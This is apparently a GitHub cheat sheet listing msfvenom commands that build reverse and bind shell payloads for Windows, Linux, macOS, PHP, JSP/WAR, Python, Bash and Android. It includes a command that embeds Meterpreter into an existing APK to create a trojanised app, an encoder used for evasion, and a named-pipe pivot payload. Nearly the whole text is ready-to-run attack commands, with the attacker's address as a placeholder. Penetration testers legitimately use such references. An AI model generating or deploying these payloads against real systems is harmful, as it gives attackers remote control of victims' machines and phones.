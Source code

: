 # MSFVenom

# MSFVenom

#### Windows Meterpreter Staged Reverse TCP (x64)
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<ip address> LPORT=<port> -f exe -o reverse.exe`

#### Windows Meterpreter Stageless Reverse TCP (x64)
`msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<ip address> LPORT=<port> -f exe -o reverse.exe`

#### Windows Staged Reverse TCP (x64)
`msfvenom -p windows/x64/reverse_tcp LHOST=<ip address> LPORT=<port> -f exe -o reverse.exe`

#### Windows Stageless Reverse TCP (x64)
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip address> LPORT=<port> -f exe -o reverse.exe`

#### Linux Meterpreter Staged Reverse TCP (x64)
`msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<ip address> LPORT=<port> -f elf -o reverse.elf`

#### Linux Meterpreter Stageless Reverse TCP (x64)
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=<ip address> LPORT=<port> -f elf -o reverse.elf`

#### Windows Bind TCP ShellCode - BOF
`msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp -e x86/shikata_ga_nai -b '' -f python -v notBuf -o shellcode`

#### macOS Meterpreter Staged Reverse TCP (x64)
`msfvenom -p osx/x64/meterpreter/reverse_tcp LHOST=<ip address> LPORT=<port> -f macho -o shell.macho`

#### macOS Meterpreter Stageless Reverse TCP (x64)
`msfvenom -p osx/x64/meterpreter_reverse_tcp LHOST=<ip address> LPORT=<port> -f macho -o shell.macho`

#### macOS Stageless Reverse TCP (x64)
`msfvenom -p osx/x64/shell_reverse_tcp LHOST=<ip address> LPORT=<port> -f macho -o shell.macho`

#### php Meterpreter Stageless Reverse TCP
`msfvenom -p php/meterpreter_reverse_tcp LHOST=<ip address> LPORT=<port> -f raw -o shell.php`

#### php Reverse PHP
`msfvenom -p php/reverse_php LHOST=<ip address> LPORT=<port> -o shell.php`

#### jsp Stageless Reverse TCP
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip address> LPORT=<port> -f raw -o shell.jsp`

#### WAR Stageless Reverse TCP
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip address> LPORT=<port> -f war -o shell.war`

#### Android Meterpreter Reverse TCP
`msfvenom --platform android -p android/meterpreter/reverse_tcp lhost=<ip address> lport=<port> R -o malicious.apk`

#### Android Meterpreter Embed Reverse TCP
`msfvenom --platform android -x template-app.apk -p android/meterpreter/reverse_tcp lhost=<ip address> lport=<port> -o payload.apk`

#### Python Stageless Reverse TCP
`msfvenom -p cmd/unix/reverse_python LHOST=<ip address> LPORT=<port> -f raw -o shell.py`

#### Bash Stageless Reverse TCP
`msfvenom -p cmd/unix/reverse_bash LHOST=<ip address> LPORT=<port> -f raw -o shell.sh`

#### Pivot
`msfvenom -p windows/meterpreter/reverse_named_pipe PIPEHOST=<ip address> PIPENAME=<name-of-pipe> -f exe -o <output file>`
